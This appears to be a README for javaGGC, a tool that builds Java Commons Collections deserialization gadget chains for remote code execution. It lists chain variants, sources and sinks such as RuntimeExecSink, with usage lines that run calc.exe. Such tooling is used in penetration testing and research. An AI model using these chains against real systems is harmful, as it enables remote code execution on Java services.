 # javaGGC
***javaGGC for generate commons.collections gadget chain***

## Usage
### javaGGC 0
Use available ggc now!

CCHx is commons collections 4.x ggc relative to CCx.
```
Usage: javaGGC version=(3/4) [source=SOURCE_INDEX] [sink=SINK_INDEX] [arg=(command/code, 1 means default, startswith file:// means read code from file)] [test_on_local=(anyValue means yes)] 
       |
       javaGGC 0 [ggc=CC_INDEX/CC_NAME] [arg=(command/code, 1 means default, startswith file:// means read code from file)] [test_on_local=(anyValue means yes)]

Available GGC:
  [0] CC1 (command)
  [1] CC10 (command)
  [2] CC11 (code)
  [3] CC12 (code)
  [4] CC2 (code)
  [5] CC3 (code)
  [6] CC4 (code)
  [7] CC5 (command)
  [8] CC6 (command)
  [9] CC7 (command)
  [10] CC8 (code)
  [11] CCH10 (command)
  [12] CCH11 (code)
  [13] CCH12 (code)
  [14] CCH5 (command)
  [15] CCH6 (command)
  [16] CCH7 (command)
  [17] CCH8 (code)
  [18] CCK1 (code)
  [19] CCK2 (code)
  [20] CCK3 (command)
  [21] CCK4 (command)
```
### javaGGC 3/4
Assemble these gadgets into a new ggc chain!
#### javaGGC 3
```
Usage: javaGGC version=(3/4) [source=SOURCE_INDEX] [sink=SINK_INDEX] [arg=(command/code, 1 means default, startswith file:// means read code from file)] [test_on_local=(anyValue means yes)] 
       |
       javaGGC 0 [ggc=CC_INDEX/CC_NAME] [arg=(command/code, 1 means default, startswith file:// means read code from file)] [test_on_local=(anyValue means yes)]

Available Source:
  [0] AnnotationInvocationHandlerSource (jdk<8u71)
  [1] BadAttributeValueExpExceptionSource
  [2] HashMapSource
  [3] HashSetSource
  [4] HashtableSource
Available Sink:
  [0] RuntimeExecSink (command)
  [1] ScriptEngineManagerSink (code)
  [2] TemplatesImplNewTransformerSink (code)
  [3] TemplatesImplTrAXFilterSink (code)
```
usage: `javaGGC 3 0 0 calc.exe`

#### javaGGC 4
```
Usage: javaGGC version=(3/4) [source=SOURCE_INDEX] [sink=SINK_INDEX] [arg=(command/code, 1 means default, startswith file:// means read code from file)] [test_on_local=(anyValue means yes)] 
       |
       javaGGC 0 [ggc=CC_INDEX/CC_NAME] [arg=(command/code, 1 means default, startswith file:// means read code from file)] [test_on_local=(anyValue means yes)]

Available Source:
  [0] BadAttributeValueExpExceptionSource
  [1] HashMapSource
  [2] HashSetSource
  [3] HashtableSource
  [4] PriorityQueueSource
  [5] TreeBagSource
Available Sink:
  [0] RuntimeExecSink (command)
  [1] ScriptEngineManagerSink (code)
  [2] TemplatesImplNewTransformerSink (code)
  [3] TemplatesImplTrAXFilterSink (code)
```
usage: `javaGGC 4 0 0 calc.exe`

## Update
### V0.0.3
- add TreeBagSource for commons collections 4

## Reference
[CCK Reference](https://github.com/shadowsock5/ysoserial/commit/cb0a3fa7aa8de4563fd4e1c57d45e6cd1ffea971)